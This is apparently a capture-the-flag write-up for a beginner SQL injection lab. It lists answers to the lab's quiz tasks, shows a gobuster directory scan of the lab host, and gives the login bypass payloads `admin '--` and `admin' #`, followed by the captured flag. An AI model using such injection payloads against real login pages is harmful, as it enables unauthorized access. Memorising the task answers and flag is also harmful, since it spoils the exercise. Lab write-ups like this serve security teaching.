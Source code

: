 TASK 1

What does the acronym SQL stand for?

structured query language

TASK 2

What is one of the most common type of SQL vulnerabilities?

sql injection


TASK 3

What does PII stand for?

Personally Identifiable Information

TASK 4

What does the OWASP Top 10 list name the classification for this vulnerability?

A03:2021-Injection

TASK 5

What service and version are running on port 80 of the target?

Apache httpd 2.4.38 ((Debian))



TASK 6

What is the standard port used for the HTTPS protocol?

443

TASK 7

What is one luck-based method of exploiting login pages?

brute-forcing

TASK 8

What is a folder called in web-application terminology?

directory

TASK 9

What response code is given for "Not Found" errors?

404 (Not Found)

TASK 10

What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

dir

TASK 11

What symbol do we use to comment out parts of the code?

Hash / pound-sign

# Research

    ┌──(kali㉿kali)-[~/HTB-CTF]
    └─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u 10.129.18.200
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.129.18.200
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2022/05/24 10:02:59 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /css                  (Status: 301) [Size: 312] [--> http://10.129.18.200/css/]
    /fonts                (Status: 301) [Size: 314] [--> http://10.129.18.200/fonts/]
    /images               (Status: 301) [Size: 315] [--> http://10.129.18.200/images/]
    /index.php            (Status: 200) [Size: 4896]                                  
    /js                   (Status: 301) [Size: 311] [--> http://10.129.18.200/js/]    
    /server-status        (Status: 403) [Size: 278]                                   
    /vendor               (Status: 301) [Size: 315] [--> http://10.129.18.200/vendor/]

    ===============================================================
    2022/05/24 10:03:06 Finished
    ===============================================================
      
Apache 2.4.38 Vulnerability CVE-2019-10097

# Reproduce SQL Injection

Using admin '-- in the login fields does show the login form to be vulnerable to SQL injection.

The following will return the flag

    admin' #

# Flag

e3d0796d002a446c0e622226f42e9672
